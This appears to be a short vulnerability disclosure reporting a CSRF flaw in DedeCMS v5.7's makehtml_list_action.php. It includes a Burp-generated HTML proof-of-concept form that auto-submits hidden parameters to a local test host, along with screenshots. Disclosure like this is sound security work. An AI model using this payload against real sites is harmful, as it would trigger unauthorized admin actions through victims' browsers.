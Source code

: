 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/makehtml_list_action.php
![1](https://github.com/Limingqian123/cms/assets/115915561/0dffba94-dc2c-4a8e-9efb-6438cb859068)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/makehtml_list_action.php">
      <input type="hidden" name="typeid" value="0" />
      <input type="hidden" name="maxpagesize" value="50" />
      <input type="hidden" name="upnext" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>







```
![2](https://github.com/Limingqian123/cms/assets/115915561/6ad29ccd-8d11-4e17-9bf9-c23df4fe2e7f)



successed

![3](https://github.com/Limingqian123/cms/assets/115915561/5d37c54a-f70a-4544-a000-2fac59343d99)
